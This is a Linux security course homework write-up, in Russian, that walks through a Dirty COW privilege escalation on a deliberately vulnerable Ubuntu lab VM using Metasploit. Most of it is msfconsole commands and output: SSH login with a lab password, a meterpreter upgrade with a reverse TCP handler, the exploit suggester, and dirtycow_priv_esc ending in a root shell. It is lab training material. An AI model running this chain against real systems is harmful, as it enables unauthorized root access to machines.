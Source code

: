 Домашние задания по курсу "Безопасность Linux"
===============================================

ДЗ 3 - dirtycow exploit - centos, ubuntu, metasploit
-----------------------------------------------

1. Centos
2. Ubuntu
3. Metasploit
в vagrantfile плейбуками ansible 
- поднимаем уязвимую vm nodebuntu на ubuntu 16.04 с ядром 4.4.0-42 (nodebuntu/bootstrap.yml), ip 192.168.99.102
- создаем на vm nodebuntu пользователя otus с обычными правами и паролем vic!!vak

- поднимаем vm nodeintruder на kali/rolling 2020.1 (nodeintruder/bootstrap.yml)
- копируем эксплоит (nodeintruder/msf/dirtycow_priv_exc.rb) в папку metasploit 

- заходим на nodeintruder: vagrant ssh nodeintruder
- запускаем консоль msf: msfconsole -q
- создаем сессию ssh с vm nodebuntu (192.168.99.102):
<code>
    msf5 > use auxiliary/scanner/ssh/ssh_login
    msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.99.102
    rhosts => 192.168.99.102
    msf5 auxiliary(scanner/ssh/ssh_login) > set username otus
    username => otus
    msf5 auxiliary(scanner/ssh/ssh_login) > set password vic!!vak
    password => vic!!vak
    msf5 auxiliary(scanner/ssh/ssh_login) > run

    [+] 192.168.99.102:22 - Success: 'otus:vic!!vak' ''
    [*] Command shell session 1 opened (192.168.99.103:38379 -> 192.168.99.102:22) at 2020-02-26 15:23:30 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions

    Active sessions
    ===============

    Id  Name  Type           Information                            Connection
    --  ----  ----           -----------                            ----------
    1         shell unknown  SSH otus:vic!!vak (192.168.99.102:22)  192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
</code>

- апгрейдим сессию в meterpreter
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [!] SESSION may not be compatible with this module.
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 192.168.99.103:4433 
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 2 opened (192.168.99.103:4433 -> 192.168.99.102:41734) at 2020-02-26 15:28:41 -0500
    [-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l

    Active sessions
    ===============

    Id  Name  Type                   Information                                                Connection
    --  ----  ----                   -----------                                                ----------
    1         shell unknown          SSH otus:vic!!vak (192.168.99.102:22)                      192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
    2         meterpreter x86/linux  uid=1001, gid=1001, euid=1001, egid=1001 @ 192.168.99.102  192.168.99.103:4433 -> 192.168.99.102:41734 (192.168.99.102)
</code>

- убедимся, что сессия запущена из под пользователя otus
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
    [*] Starting interaction with 2...

    meterpreter > shell
    Process 10451 created.
    Channel 71 created.
    id
    uid=1001(otus) gid=1001(otus) groups=1001(otus)
    exit
    meterpreter > 
    Background session 2? [y/N]  
</code>

- смотрим, что нам может посоветовать metasploit suggester в данной ситуации
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > use post/multi/recon/local_exploit_suggester 
    msf5 post(multi/recon/local_exploit_suggester) > set session 2
    session => 2
    msf5 post(multi/recon/local_exploit_suggester) > run

    [*] 192.168.99.102 - Collecting local exploits for x86/linux...
    [*] 192.168.99.102 - 35 exploit checks are being tried...
    [+] 192.168.99.102 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The service is running, but could not be validated.
    [+] 192.168.99.102 - exploit/linux/local/pkexec: The service is running, but could not be validated.
    [*] Post module execution completed
</code>

- наблюдаем, среди прочего эксплоит dirtycow_priv_esc
- выбираем этот эксплоит, устанавливаем сессию, в которой запустим эксплоит, payload и параметры подключения
<code>
    msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/dirtycow_priv_esc
    msf5 exploit(linux/local/dirtycow_priv_esc) > set session 2
    session => 2
    msf5 exploit(linux/local/dirtycow_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    msf5 exploit(linux/local/dirtycow_priv_esc) > set lhost 192.168.99.103
    lhost => 192.168.99.103
    msf5 exploit(linux/local/dirtycow_priv_esc) > set lport 4321
    lport => 4321
</code>

- запускаем эксплоит
<code>
    [*] Started reverse TCP handler on 192.168.99.103:4321 
    [*] Writing '/tmp/.KvJCwYJAgaw.c' (3077 bytes) ...
    [-] Compiling failed:
    /tmp/.KvJCwYJAgaw.c: In function 'procselfmemThread':
    /tmp/.KvJCwYJAgaw.c:64:14: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [-Wint-conversion]
        lseek(f, map, SEEK_SET);
                ^
    In file included from /tmp/.KvJCwYJAgaw.c:8:0:
    /usr/include/unistd.h:337:16: note: expected '__off_t {aka long int}' but argument is of type 'void *'
    extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^
    /tmp/.KvJCwYJAgaw.c: In function 'main':
    /tmp/.KvJCwYJAgaw.c:94:3: warning: implicit declaration of function 'asprintf' [-Wimplicit-function-declaration]
    asprintf(&backup, "cp %s /tmp/.mrSSZhTstx", suid_binary);
    ^
    /tmp/.KvJCwYJAgaw.c:98:3: warning: implicit declaration of function 'fstat' [-Wimplicit-function-declaration]
    fstat(f,&st);
    ^
    [*] Launching exploit...
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 3 opened (192.168.99.103:4321 -> 192.168.99.102:60974) at 2020-02-26 15:59:13 -0500

    meterpreter > 
    [*] Setting '/proc/sys/vm/dirty_writeback_centisecs' to '0'...

    Background session 3? [y/N]  

</code>

- игнорируем ответ "compiling failed" - т.к. в выводе компилятора только предупреждения. 
- убеждаемся в успехе - смотрим открытую сессию 3, запускаем uname -a, id и т.п
<code>
    msf5 exploit(linux/local/dirtycow_priv_esc) > sessions -i 3
    [*] Starting interaction with 3...

    meterpreter > shell
    Process 3696 created.
    Channel 1 created.
    uname -r
    4.4.0-42-generic
    uname -a
    Linux nodebuntu 4.4.0-42-generic #62-Ubuntu SMP Fri Oct 7 23:11:45 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
    id
    uid=0(root) gid=0(root) groups=0(root),1001(otus)
</code>
